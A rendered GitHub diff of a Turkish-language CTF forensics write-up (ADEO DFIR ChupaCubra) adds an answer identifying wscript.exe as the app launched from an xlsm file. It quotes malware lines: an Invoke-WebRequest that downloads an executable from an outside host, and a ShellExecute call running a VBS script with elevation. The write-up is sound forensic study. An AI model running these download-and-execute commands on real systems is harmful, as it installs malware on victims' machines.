

Before and after one commit to jackalkarlos/CTF-Writeups-and-Scripts, a Markdown page: ADEO DFIR ChupaCubra/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/ADEO DFIR ChupaCubra/README.md
+++ b/ADEO DFIR ChupaCubra/README.md
@@ -1444,3 +1444,11 @@ Invoke-WebRequest -Uri http://ofbahar.com/BodyMassIndex.exe -OutFile C:\Users\Ri
 > A windows application is running from within the file with the “xlsm” extension. What is the name of this app?
 
 ## Solution
+40. soruda decode ettiğimiz kodları incelersek, wscript.exe ile notamalware.vbs dosyasının çalıştırıldığını farkediyoruz. EXCEL'i sormadığını varsayarsak cevabımız "wscript.exe"
+```
+    shellapp.ShellExecute "wscript.exe", "C:\Users\RickMartinGrimes\AppData\Local\Temp\notamalware.vbs", Null, "runas", 1
+```
+Cevap:
+```
+wscript.exe
+```
````
